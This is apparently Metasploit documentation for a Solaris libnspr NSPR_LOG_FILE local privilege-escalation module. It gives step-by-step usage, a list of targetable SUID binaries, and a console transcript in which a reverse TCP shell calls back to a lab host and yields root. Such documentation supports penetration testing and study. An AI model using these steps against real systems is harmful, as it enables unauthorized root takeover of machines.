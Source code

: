## Description

  This module exploits an arbitrary file write vulnerability in the
  Netscape Portable Runtime library (libnspr) on unpatched Solaris systems
  prior to Solaris 10u3 which allows users to gain root privileges.

  libnspr versions prior to 4.6.3 allow users to specify a log file with
  the `NSPR_LOG_FILE` environment variable. The log file is created with
  the privileges of the running process, resulting in privilege escalation
  when used in combination with a SUID executable.

  This module writes a shared object to the trusted library directory
  `/usr/lib/secure` and runs the specified SUID binary with the shared
  object loaded using the `LD_LIBRARY_PATH` environment variable.


## Vulnerable Application

  This module has been tested successfully with [libnspr](https://developer.mozilla.org/en-US/docs/Mozilla/Projects/NSPR)
  version 4.5.1 on Solaris 10u1 (01/06) (x86) and Solaris 10u2 (06/06) (x86).


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/solaris/local/libnspr_nspr_log_file_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `run`
  6. You should get a new *root* session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### SUID_PATH

  Path to suid executable (must be linked to a vulnerable version of `libnspr4.so`)
  (default: `/usr/bin/cancel`)

  Some useful example SUID executables:

  * /usr/bin/cancel
  * /usr/bin/chkey
  * /usr/bin/lp
  * /usr/bin/lpset
  * /usr/bin/lpstat
  * /usr/lib/lp/bin/netpr
  * /usr/sbin/lpmove


## Scenarios

  ```
  msf > use exploit/solaris/local/libnspr_nspr_log_file_priv_esc 
  msf exploit(solaris/local/libnspr_nspr_log_file_priv_esc) > set session 1
  session => 1
  msf exploit(solaris/local/libnspr_nspr_log_file_priv_esc) > set lhost 172.16.191.196
  lhost => 172.16.191.196
  msf exploit(solaris/local/libnspr_nspr_log_file_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.196:4444 
  [+] Created file /usr/lib/secure/libldap.so.5
  [*] Writing '/tmp/.8ENHI80b/.z6luu3Y1JC.c' (166 bytes) ...
  [*] Writing '/tmp/.8ENHI80b/.1hC6r9F' (175 bytes) ...
  [*] Executing payload...
  [+] Deleted /usr/lib/secure/libldap.so.5
  [+] Deleted /tmp/.8ENHI80b/.z6luu3Y1JC.c
  [+] Deleted /tmp/.8ENHI80b/.z6luu3Y1JC
  [!] Tried to delete /usr/lib/secure/libldap.so.5, unknown result
  [+] Deleted /tmp/.8ENHI80b/.1hC6r9F
  [+] Deleted /tmp/.8ENHI80b

  id
  uid=0(root) gid=0(root)
  uname -a
  SunOS unknown 5.10 Generic_118844-26 i86pc i386 i86pc
  ```

